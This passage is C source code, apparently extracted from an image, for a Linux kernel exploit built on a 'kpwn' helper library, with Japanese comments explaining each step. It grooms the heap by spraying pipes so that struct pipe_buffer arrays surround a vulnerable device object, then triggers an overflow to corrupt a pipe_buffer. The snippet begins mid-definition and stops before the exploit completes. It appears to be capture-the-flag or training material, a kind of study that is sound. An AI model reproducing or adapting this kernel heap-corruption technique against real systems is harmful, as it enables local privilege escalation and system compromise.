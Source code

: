 ```c
  size_t size;
  char *data;
} request_t;

char FILL_BUF[OBJ_SIZE];

/* Function prototypes */
void open_device(void);
int obj_alloc();
int obj_write(char *buf, size_t size);

void alloc_pipe(int pipes[NUM_PIPES][2]);
void resize_pipe(int pipes[NUM_PIPES][2]);

int fd;

int main() {
  kpwn::misc::init();
  kpwn::misc::process_assign_to_core(0); // pinはしておいて損はない。いくらしたって構わない。

  // allcoate pdu, pte...
  kpwn::memory::mmap(0x1, 0x0, 0x0, 0x0, 0x0, {.touch = 1});
  // mmapするとPTE以外にもPMDやPUDが確保されてしまう。
  // 最初にPMD, PUD, PTEを確保することで、PTEのインデックスをずらした際、PTEテーブルだけを狙って確保できる。
  // また、実際にアクセスがあるまで諸々は確保されないので、何かしらのアクセスをしておく必要がある。{ .touch = 1 }

  kpwn::log("allocating pipes...");

  int pipes_a[NUM_PIPES][2];
  int pipes_b[NUM_PIPES][2];

  alloc_pipe(pipes_a);
  alloc_pipe(pipes_b);

  open_device();

  // 攻撃対象のオブジェクトを挟み込むように struct pipe_buffer 配列を確保。
  resize_pipe(pipes_a);
  obj_alloc();
  resize_pipe(pipes_b);

  int pipes[NUM_PIPES * 2][2];
  for (int i = 0; i < NUM_PIPES; i++) {
    pipes[i][0] = pipes_a[i][0];
    pipes[i][1] = pipes_a[i][1];
  }
  for (int i = 0; i < NUM_PIPES; i++) {
    pipes[i + NUM_PIPES][0] = pipes_b[i][0];
    pipes[i + NUM_PIPES][1] = pipes_b[i][1];
  }

  kpwn::info("write id to pipes");

  // 予め、pipes[i]にiという値を入れておく。当然、対応するpipeからreadを行うとiが帰ってくるはずである。
  char buf[0x10];
  for (int i = 0; i < NUM_PIPES * 2; i++) {
    memset(buf, i, sizeof(buf));
    write(pipes[i][1], buf, sizeof(buf));
  }

  // 脆弱性を発火させ、その場に居た struct pipe_buffer が犠牲になる。
  kpwn::info("creating broken pipe");
  obj_write(FILL_BUF, sizeof(FILL_BUF));
```